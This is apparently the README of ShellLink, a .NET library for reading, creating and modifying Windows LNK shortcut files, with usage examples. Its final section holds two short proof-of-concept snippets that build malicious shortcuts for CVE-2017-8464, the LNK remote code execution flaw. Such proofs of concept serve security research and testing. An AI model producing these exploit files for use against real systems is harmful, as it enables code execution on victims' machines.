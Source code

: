 # ShellLink
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

![.NET Core](https://github.com/ykoster/ShellLink/workflows/.NET%20Core/badge.svg)

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

#### Sample Output
```
Shortcut:
HeaderSize: 76 (0x4C)
LinkCLSID: 00021401-0000-0000-c000-000000000046
LinkFlags: HasName, HasIconLocation, IsUnicode, ForceNoLinkInfo, HasExpString, EnableTargetMetadata, PreferEnvironmentPath
FileAttributes: 0
CreationTime: 1/1/1601 12:00:00 AM
AccessTime: 1/1/1601 12:00:00 AM
WriteTime: 1/1/1601 12:00:00 AM
FileSize: 0 (0x0)
IconIndex: 0
ShowCommand: SW_SHOWNORMAL
HotKey: 0
StringData:
NameString: @%SystemRoot%\system32\shell32.dll,-22566
IconLocation: %windir%\system32\mspaint.exe
ExtraData:
EnvironmentVariableDataBlock:
BlockSize: 788 (0x314)
BlockSignature: 0xA0000001
TargetAnsi: %windir%\system32\mspaint.exe
TargetUnicode: %windir%\system32\mspaint.exe
PropertyStoreDataBlock:
BlockSize: 102 (0x66)
BlockSignature: 0xA0000009
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 46588ae2-4cbc-4338-bbfc-139326986dce
IntegerName:
ValueSize: 17 (0x11)
ID: 0x0
TypedPropertyValue:
Type: VT_UI4
Value: 0
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 9f4c2855-9f79-4b39-a8d0-e1d42de1d5f3
IntegerName:
ValueSize: 17 (0x11)
ID: 0x12
TypedPropertyValue:
Type: VT_UI4
Value: 1
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability

#### SpecialFolderDataBlock
```
Shortcut poc = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
int Index = poc.LinkTargetIDList.ItemIDList.Count - 1;
poc.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = CSIDL.CSIDL_CONTROLS,
	Offset = poc.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc.WriteToFile(@"CVE-2017-8464.lnk");
```

#### KnownFolderDataBlock
```
Shortcut poc2 = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl")
};
int Index = poc2.LinkTargetIDList.ItemIDList.Count - 1;
poc2.ExtraData.KnownFolderDataBlock = new KnownFolderDataBlock()
{
	KnownFolderID = KNOWNFOLDERID.FOLDERID_ControlPanelFolder,
	Offset = poc2.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc2.WriteToFile(@"CVE-2017-8464-2.lnk");
```

